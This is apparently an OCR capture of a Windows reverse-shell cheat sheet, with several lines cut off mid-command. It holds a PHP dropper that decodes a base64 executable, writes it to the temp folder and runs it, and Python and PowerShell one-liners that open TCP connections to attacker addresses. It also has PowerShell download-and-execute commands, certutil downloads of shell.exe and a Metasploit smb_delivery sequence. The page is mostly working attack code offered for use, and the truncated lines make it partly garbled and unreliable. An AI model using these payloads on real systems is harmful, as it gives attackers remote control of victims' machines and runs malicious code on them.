 user@remote:~$ export TERM=xterm-256color

Reloading bash to apply the TERM variable:

user@remote:~$ exec /bin/bash

Windows Reverse Shells

PHP :

1 <?php
2
3 header('Content-type: text/plain');
4 $ip = "192.168.1.9"; //change this
5 $port = "1234"; //change this
6 $payload = "7Vh5VFPntj9JDklIQgaZogY5aBSsiExVRNCEWQlCGQQVSQIJGMmAyQlDtRIaQGK
7 $evalCode = gzinflate(base64_decode($payload));
8 $evalArguments = " ".$port." ".$ip;
9 $tmpdir ="C:\\windows\\temp";
10 chdir($tmpdir);
11 $res .= "Using dir : ".$tmpdir;
12 $filename = "D3fa1t_shell.exe";
13 $file = fopen($filename, 'wb');
14 fwrite($file, $evalCode);
15 fclose($file);
16 $path = $filename;
17 $cmd = $path.$evalArguments;
18 $res .= "\n\nExecuting : ".$cmd."\n";
19 echo $res;
20 $output = system($cmd);
21
22 ?>

Windows Python :

C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect

Powershell :

powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.

powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githu

$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream

Certutil :

certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe &

Base64 Encoded Certutil based payload delivery :

certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & cert

Metasploit :

1 use exploit/windows/smb/smb_delivery
2 msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109 //your LH
3 msf exploit(windows/smb/smb_delivery) > exploit
4
5
6 rundll32.exe \\192.168.1.109\vabFG\test.dll,0
